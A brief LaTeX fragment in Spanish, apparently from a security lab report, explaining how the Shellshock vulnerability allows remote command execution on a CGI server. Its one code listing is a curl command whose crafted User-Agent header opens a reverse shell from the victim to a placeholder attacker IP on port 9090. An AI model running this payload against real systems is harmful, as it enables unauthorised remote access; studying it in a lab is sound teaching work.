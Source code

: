 \documentclass[10pt,a4paper]{article}
\begin{document}
El problema de este ataque recae en conseguir ejecutar el comando en la máquina remota cuando no se tiene acceso físico a la misma. Para ello se utiliza el ataque \emph{Shellshock}, mediante el cual se pueden ejecutar comandos de forma remota.
Para poder realizar el ataque, se utilizará el siguiente comando desde la máquina atacante, mediante el cual se conseguirá establecer un \emph{reverse shell} en la máquina indicada.\\

\begin{lstlisting}
curl -v \ 
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; \ 
/bin/bash -i > /dev/tcp/_IP_MAQUINA_ATACANTE/9090 0<&1 2>&1;" \
http://_IP_MAQUINA_VICTIMA/cgi-bin/myprog.cg
\end{lstlisting}
\end{document}
